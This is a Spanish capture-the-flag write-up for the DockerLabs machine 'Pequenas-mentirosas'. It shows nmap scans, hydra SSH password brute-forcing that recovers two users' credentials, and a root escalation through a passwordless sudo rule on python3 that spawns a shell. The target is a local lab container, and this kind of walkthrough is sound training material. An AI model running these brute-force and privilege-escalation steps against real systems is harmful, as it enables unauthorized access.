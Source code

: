 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pequenas-mentirosas DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip pequenas-mentirosas.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh pequenas-mentirosas.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 12:08 EST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e:10:58:a5:1a:42:9d:be:e5:19:d1:2e:79:9c:ce:21 (ECDSA)
|_  256 6b:a3:a8:84:e0:33:57:fc:44:49:69:41:7d:d3:c9:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.73 seconds
```

Si entramos en la pagina veremos solamente este mensaje:

```
Pista: Encuentra la clave para A en los archivos.
```

Si hacemos un poco de `fuzzing` no veremos gran cosa por lo que vamos a tirarle fuerza bruta a la palabra `a` con la herramienta `hydra`.

## Escalate user a

### Hydra

```shell
hydra -l a -P <WORDLIST> ssh://<IP> -t 64 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-30 12:14:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: a   password: secret
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 22 final worker threads did not complete until end.
[ERROR] 22 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-30 12:14:17
```

Vemos que efectivamente nos encuentra las credenciales, por lo que nos meteremos como dicho usuario.

### SSH

```shell
ssh a@<IP>
```

Metemos como contraseña `secret` y veremos que estamos dentro.

## Escalate user spencer

Si listamos el archivo de `passwd` veremos lo siguiente:

```shell
cat /etc/passwd | grep "/bin/bash"
```

Info:

```
root:x:0:0:root:/root:/bin/bash
spencer:x:1000:1000::/home/spencer:/bin/bash
a:x:1001:1001::/home/a:/bin/bash
```

Vemos que hay otro usuario, por lo que probaremos a tirarle de nuevo fuerza bruta.

### Hydra

```shell
hydra -l spencer -P <WORDLIST> ssh://<IP> -t 64 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-30 12:17:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: spencer   password: password1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 24 final worker threads did not complete until end.
[ERROR] 24 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-30 12:17:47
```

Vemos que encontramos las credenciales del usuario `spencer` por lo que haremos lo siguiente:

```shell
su spencer
```

Metemos como contraseña `password1` y veremos que somo dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for spencer on 7ed327dd9786:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User spencer may run the following commands on 7ed327dd9786:
    (ALL) NOPASSWD: /usr/bin/python3
```

Vemos que podemos ejecutar el binario `python3` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo python3 -c 'import os; os.system("/bin/bash")'
```

Info:

```
root@7ed327dd9786:/home/spencer# whoami
root
```

Y con esto seremos `root`, por lo que ya habremos terminado la maquina.
